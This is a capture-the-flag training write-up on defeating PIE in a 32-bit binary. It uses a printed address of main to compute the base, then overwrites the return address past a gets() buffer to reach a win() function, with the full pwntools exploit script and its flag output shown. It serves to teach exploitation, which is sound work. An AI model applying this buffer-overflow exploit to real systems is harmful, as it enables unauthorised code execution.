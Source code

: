 ```yaml
---
description: Bypassing PIE with a provided address leak.
---
```


# gimme

{% file src="../../.gitbook/assets/gimme.zip" %}

This binary is the first we've covered thus far that enables PIE. We see this in the `checksec` output:

```bash
$ checksec gimme
[*] '/home/joybuzzer/Documents/vunrotc/public/binex/06-pie/gimme/src/gimme'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

The only thing that's disabled is the canary. This means that this code is still susceptible to buffer overflows.

### Static Analysis

We'll start PIE binaries the same way we start the others. While we search through the binary, we are looking for ways that can leak any address in the binary so that we beat PIE.

We'll start with `win()`. `win()` only makes one call to `system`. We can dissect that the string being passed is _cat flag.txt_, but I'll leave it to the reader to verify this.

The `main()` function only makes a call to `read_in` and then returns.

Now, let's discuss the `read_in` function. We can start dissecting each call and the arguments being passed. The first call is to `printf`:

```as
   0x565561fe <+21>:	lea    eax,[ebx-0x2dfb]
   0x56556204 <+27>:	push   eax
   0x56556205 <+28>:	lea    eax,[ebx-0x1fc0]
   0x5655620b <+34>:	push   eax
=> 0x5655620c <+35>:	call   0x56556050 <printf@plt>
```

Checking what's at the address pushed addresses:

{% tabs %}
{% tab title="GDB" %}
```as
gef➤  x/s $ebx-0x1fc0
0x56557008:	"Main function is at: %lx\n"
gef➤  x/wx $ebx-0x2dfb
0x565561cd <main>:	0x83e58955
```
{% endtab %}

{% tab title="Radare2" %}

{% endtab %}
{% endtabs %}

We see that the first call to `printf` is printing the address of `main`. After this, there is a `gets` call to a `0x30` byte buffer.

### The Attack Vector

We have everything we need. Our steps are:

1. Leak the address of `main`
2. Use this to register the base address of the binary
3. Calculate the address of `win`
4. Overwrite the return address with the address of `win`

Pwntools helps out with most of this. By loading in the binary using `ELF()`, the offsets will be automatically registered. Once we find the base address, we can register this inside the `ELF` object and proceed as usual.

We use `libc = elf.libc` to register the `libc` offsets. This is because we will be using the `system` call from `libc`. Then, we can call any function using `elf.sym.<function_name>`. When we find the base address, we store it in `elf.address`.

Let's make this happen. We first establish the binary and process:

```python
elf = context.binary = ELF('./gimme')
p = remote('vunrotc.cole-ellis.com', 7100)
```

From here, we get the leak. This is the same way we received the leak in [location](../02-shellcodes/location.md).

```python
p.recvuntil(b'at: ')
leak = int(p.recvline().strip(), 16)
```

Once we have the leak, we know that the base address is the leak minus the offset of `main`. We can then register this in the `ELF` object.

```python
elf.address = leak - elf.sym.main
```

Now, when we use the `elf.sym.<function_name>` syntax, it automatically adds the base address to the offset. Now, we can build our payload using `elf.sym.win` instead of a hardcoded address.

```python
payload = b'A' * 0x34
payload += p32(elf.sym.win)
```

Finally, we send the payload and get the flag:

```python
p.sendline(payload)
p.interactive()
```

As we can see, PIE is bypassed, and the binary is exploited:

```bash
$ python3 exploit.py
[*] '/home/joybuzzer/Documents/vunrotc/public/binex/06-pie/gimme/src/gimme'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to vunrotc.cole-ellis.com on port 7100: Done
[*] Switching to interactive mode
flag{bye_bye_ms_american_pie}
/home/ctf/runner.sh: line 5:    12 Segmentation fault      (core dumped) ./gimme
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Closed connection to vunrotc.cole-ellis.com port 7100
```
